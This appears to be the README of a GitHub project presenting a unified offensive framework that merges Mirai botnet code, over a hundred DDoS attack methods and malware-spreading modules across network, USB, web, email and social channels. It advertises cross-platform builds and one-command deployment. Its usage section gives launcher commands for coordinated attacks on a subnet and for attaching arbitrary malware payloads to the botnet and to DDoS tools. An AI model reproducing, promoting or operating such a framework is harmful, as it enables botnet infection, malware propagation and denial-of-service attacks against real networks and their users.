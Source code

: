 ## 🚀 Capabilities Achieved

### Attack Coordination
- **Unified Interface**: Single launcher for all attack vectors
- **Module Management**: Dynamic loading/unloading of components
- **Real-time Monitoring**: Process health and performance tracking
- **Automated Orchestration**: Coordinated multi-vector campaigns

### Spread Integration (Key Requirement Met)
- **Mirai Integration**: Payloads attached to botnet spread
- **DDOS Integration**: Payloads delivered during DDOS attacks  
- **Independent Campaigns**: Standalone spread mechanisms
- **Multi-Vector Coordination**: Network + USB + Web + Email + Social

### Build & Deployment
- **Cross-Platform**: Supports x86_64, ARM, MIPS targets
- **Automated Building**: Complete build system with dependencies
- **Release Packaging**: Compressed archives with checksums
- **Easy Installation**: One-command setup and deployment

## 📊 Framework Statistics

- **Total Files**: 2,046 files integrated
- **Source Lines**: 3.7M+ lines of code
- **Modules**: 4 core modules (Mirai, DDOS, Spread, Payloads)
- **Attack Methods**: 100+ DDOS attack vectors
- **Spread Mechanisms**: 5 propagation methods
- **Architecture Support**: 3 target platforms
- **Package Size**: 2.4GB comprehensive release

## ⚡ Usage Examples

### Quick Start
```bash
# Load and coordinate all modules
./launcher/unified_launcher.py load mirai
./launcher/unified_launcher.py load ddos  
./launcher/unified_launcher.py load spread

# Launch coordinated attack with spread
./launcher/unified_launcher.py attack 192.168.1.0/24 \
  --methods ddos botnet spread --intensity high
```

### Spread Integration
```bash
# Attach payload to Mirai botnet
./launcher/unified_launcher.py spread attach-mirai \
  --payload /path/to/malware.bin

# Attach payload to DDOS tools
./launcher/unified_launcher.py spread attach-ddos \
  --payload /path/to/payload.exe --tools slowloris hulk

# Launch standalone spread campaign
./launcher/unified_launcher.py campaign start \
  --config campaign.json
```
